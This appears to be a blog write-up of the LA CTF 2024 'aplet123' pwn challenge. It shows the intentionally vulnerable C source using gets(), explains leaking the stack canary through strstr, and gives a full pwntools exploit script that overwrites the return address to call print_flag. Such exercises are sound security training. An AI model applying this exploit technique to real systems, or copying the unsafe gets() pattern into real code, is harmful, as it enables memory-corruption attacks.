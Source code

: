 +++
title = 'LA CTF 2024 - pwn/aplet123'
date = 2024-02-21T17:20:12-05:00
draft = false
+++

We are given a binary and source code. Taking a look at the source code:


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "true",
                                 "pickle",
                                 "GINKOID",
                                 "L bozo",
                                 "wtf",
                                 "not with that attitude",
                                 "increble",
                                 "based",
                                 "so true",
                                 "monka",
                                 "wat",
                                 "monkaS",
                                 "banned",
                                 "holy based",
                                 "daz crazy",
                                 "smh",
                                 "bruh",
                                 "lol",
                                 "mfw",
                                 "skissue",
                                 "so relatable",
                                 "copium",
                                 "untrue!",
                                 "rolled",
                                 "cringe",
                                 "unlucky",
                                 "lmao",
                                 "eLLe",
                                 "loser!",
                                 "cope",
                                 "I use arch btw"};

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```

```
checksec --file=aplet123 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123
      
```

And taking a look at the binary with checksec we see that we have PIE turned off but we have a stack canary.


```c
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
```

We see that we are using gets which gives us a buffer overflow. Remeber that strstr retrusns a pointer to the first occuraence of the sequence we are seraching for. So if our input contains 'i'm' at the end, then we can read past the buffer and this lets us leak the canary.


```python
target.sendline("A" * 69 + "i'm")
target.recvuntil("hi ")
canary = target.recv(7)
```

Recall that the least significant bit of the canary is a null byte. I believe this is to prevent the canary from being leaked if for example it is next to a string that is not null terminated in memroy that is being read.


Now that we have the canary,  we need to use the buffer overflow to overwrite the saved return address. 

Complete solve script:

```python3 
from pwn import *
context.log_level = "DEBUG"

printflag_addr = 0x4011e6


target = remote("chall.lac.tf", 31123)

target.recvuntil("hello")

target.sendline("A" * 69 + "i'm")

target.recvuntil("hi ")
canary = target.recv(7)

payload = b"A" * 72
payload += b'\x00' + canary
payload += b"A" * 8
payload += p64(printflag_addr)

target.sendline(payload)
target.sendline('bye')

target.interactive()
```